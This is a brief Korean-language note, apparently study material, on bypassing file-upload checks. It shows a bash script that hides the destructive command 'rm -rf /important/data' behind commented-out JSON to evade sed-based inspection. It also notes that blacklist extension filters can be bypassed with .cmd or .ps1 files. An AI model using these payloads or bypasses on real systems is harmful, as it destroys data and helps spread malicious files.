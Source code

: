 # FILE UPLOAD 공격 우회  
  
파일의 복호화된 내용을 sed로 읽고 검사하는 경우 주석 처리로 우회 가능 
#!/bin/bash  
rm -rf /important/data  
#{  
#"key": "authentication code"  
#}  

-----------------------------------------------  
확장자가 블랙리스트 방식으로 허용될 경우  
.cmd , .ps1 등의 확장자로 우회하여 악성 파일 배포 가능  
